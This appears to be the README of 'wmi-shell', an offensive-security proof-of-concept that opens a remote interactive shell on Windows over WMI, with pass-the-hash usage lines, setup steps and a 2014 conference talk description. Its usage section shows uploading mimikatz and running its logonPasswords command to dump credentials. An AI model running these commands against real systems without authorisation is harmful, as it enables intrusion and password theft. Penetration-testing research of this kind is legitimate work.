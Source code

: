 # wmi-shell

Proof-of-concept of an interactive shell on a target Windows machine using only the WMI system (no network shares are needed to extract command output).

Remote WMI access must be configured on the target. No SMB services are needed. All command output is obtained exclusively using the WMI access, through storage in the WMI repository.


## Usage

Launch the script on Kali Linux 32-bit with either the cleartext password or the password hash of an administrator account on the target Windows machine:   
```
python -O wmi-shell.py <USERNAME> <PASSWORD> <TARGET_IP>
python -O wmi-shell.py <USERNAME> <LM:NTLM> <TARGET_IP>	
```
Usual Windows commands can be launched from the interactive shell the script provides:

```
>>> dir c:
```
A post-exploitation tool like mimikatz can also be uploaded and ran to extract passwords from the target:

```
>>> upload ../mimikatz.exe
>>> %TEMP%\mimikatz.exe privilege::debug sekurlsa::logonPasswords exit
```

## Requirements

Kali Linux 32-bit with Pass the Hash toolkit (installed by default). 

The necessary pth-wmis tool does not work on Kali Linux 64-bit, so it's only 32-bit systems for now.

To make the script run from other systems, you must download and install the PTH toolkit and some old libraries needed by the wmis and wmic tools.

Example for a 32-bit Debian:
```bash
git clone https://github.com/byt3bl33d3r/pth-toolkit
sudo apt install multiarch-support
wget http://ftp.de.debian.org/debian/pool/main/libt/libtasn1-3/libtasn1-3_2.13-2+deb7u2_i386.deb
wget http://ftp.de.debian.org/debian/pool/main/g/gnutls26/libgnutls26_2.12.20-8+deb7u5_i386.deb
wget http://ftp.de.debian.org/debian/pool/main/libg/libgcrypt11/libgcrypt11_1.5.0-5+deb7u4_i386.deb
dpkg -i libgcrypt11_1.5.0-5+deb7u4_i386.deb
dpkg -i libtasn1-3_2.13-2+deb7u2_i386.deb
dpkg -i libgnutls26_2.12.20-8+deb7u5_i386.deb
```

## Project details

This project was initially presented at the 2014 Hackito Ergo Sum conference by Andrei Dumitrescu. The presentation slides can be found online:
- <a href="http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf" target="_blank">http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf</a>
- <a href="https://speakerdeck.com/hackitoergosum/hes2014-wmi-shell-a-new-way-to-get-shells-on-remote-windows-machines-using-only-the-wmi-service-by-andrei-dumitrescu" target="_blank">https://speakerdeck.com/hackitoergosum/hes2014-wmi-shell-a-new-way-to-get-shells-on-remote-windows-machines-using-only-the-wmi-service-by-andrei-dumitrescu</a>

### Description:

The Windows Management Instrumentation (WMI) technology is included by default in all versions of Windows since Windows Millenium. The WMI technology is used by Windows administrators to get a variety of information concerning the target machine (like user account information, the list of running processes etc.) and to create/kill processes on the machine.

From a pentester’s point of view, WMI is just another method of executing commands remotely on target machines in a post-exploitation scenario. This can be achieved by creating processes on the remote machine using a WMI client. However, at the present time the output of the executed command cannot be easily recovered ; a potential solution would be write the output to a file and get these files using the SMB server on port 445, but this requires having remote file access on the target machine, which might not always be the case.

We have developed a tool that allows us to execute commands and get their output using only the WMI infrastructure, without any help from other services, like the SMB server. With the wmi-shell tool we can execute commands, upload files and recover Windows passwords remotely using just the WMI service that listens on port 135. During this talk we will quickly review current authenticated remote code execution methods available for Windows, we will explain the aspects of the WMI architecture that make the wmi-shell possible and we will present the tool itself (demo & links to the source code).

